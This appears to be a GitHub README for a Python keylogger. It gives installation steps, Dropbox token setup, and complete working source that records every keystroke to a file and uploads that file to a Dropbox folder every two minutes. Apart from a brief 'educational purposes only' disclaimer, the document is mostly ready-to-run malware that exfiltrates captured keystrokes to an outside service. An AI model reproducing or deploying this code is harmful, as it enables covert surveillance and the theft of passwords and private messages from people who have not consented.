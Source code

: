 
# KeyLogger with Dropbox Integration

This project is a simple keylogger that logs keystrokes to a local file and uploads the log file to a specified Dropbox folder every 2 minutes.

## Prerequisites

Before you can run this keylogger, ensure you have the following installed on your system:

1. **Python 3.x**: You can download and install Python from the [official website](https://www.python.org/downloads/).
2. **pip**: Python package installer, usually included with Python. You can check if it's installed by running `pip --version` in your terminal.
3. **Required Python Packages**: Install the necessary Python packages using pip.

```sh
pip install dropbox pynput
```

## Dropbox Access Token

To upload files to Dropbox, you need an access token:

1. **Create a Dropbox App**:
   - Go to the [Dropbox App Console](https://www.dropbox.com/developers/apps).
   - Click on "Create App".
   - Choose "Scoped access" and select "Full Dropbox" or "App folder" based on your needs.
   - Name your app and click "Create App".

2. **Generate Access Token**:
   - Once your app is created, navigate to the "Permissions" tab and enable the required permissions.
   - Go to the "Settings" tab and scroll down to the "OAuth 2" section.
   - Click on "Generate" to create an access token.
   - Copy this access token as you will need it in your script.

## Installation and Usage

1. **Clone the Repository**:

```sh
git clone https://github.com/yourusername/keylogger-dropbox.git
cd keylogger-dropbox
```

2. **Modify Configuration**:
   - Open the `keylogger.py` file.
   - Replace `'YOUR_DROPBOX_ACCESS_TOKEN'` with your actual Dropbox access token.
   - Adjust `LOG_FILE_PATH` if you want the log file to be saved in a different location.
   - Replace `'/APP/FOLDER/keyLogger.txt'` in the `upload_log` function with the actual path to your Dropbox folder where you want to save the log file.

3. **Run the Keylogger**:

```sh
python keylogger.py
```

## Example Code

```python
import dropbox
from pynput import keyboard
import threading
import time

# Hardcoded configuration
DROPBOX_ACCESS_TOKEN = 'YOUR_DROPBOX_ACCESS_TOKEN'  # Replace with your actual Dropbox access token
LOG_FILE_PATH = 'keyLogger.txt'  # Replace with the desired log file path

# Initialize Dropbox client
dbx = dropbox.Dropbox(DROPBOX_ACCESS_TOKEN)

def upload_log():
    with open(LOG_FILE_PATH, 'rb') as f:
        dbx.files_upload(f.read(), '/APP/FOLDER/keyLogger.txt', mode=dropbox.files.WriteMode.overwrite)
    print("Log uploaded to Dropbox")

def schedule_upload(interval):
    while True:
        time.sleep(interval)
        upload_log()

def on_press(key):
    try:
        log = key.char
    except AttributeError:
        if key == keyboard.Key.space:
            log = ' '
        elif key == keyboard.Key.enter:
            log = 'ENTER '
        elif key == keyboard.Key.shift:
            log = 'SHIFT '
        elif key == keyboard.Key.shift_r:
            log = 'SHIFT_R '
        elif key == keyboard.Key.backspace:
            log = 'BACKSPACE '
        else:
            log = f'{key} '
    with open(LOG_FILE_PATH, 'a') as f:
        f.write(log)

if __name__ == "__main__":
    upload_thread = threading.Thread(target=schedule_upload, args=(120,))
    upload_thread.daemon = True
    upload_thread.start()

    with keyboard.Listener(on_press=on_press) as listener:
        listener.join()
```

## Important Notes

- This keylogger is intended for educational purposes only. Ensure you have permission to log keystrokes on any computer you use this on.
- Be cautious with sensitive information and respect privacy laws and regulations.

## Contributing

If you'd like to contribute, please fork the repository and use a feature branch. Pull requests are warmly welcome.

## License

This project is licensed under the MIT License. See the LICENSE file for details.
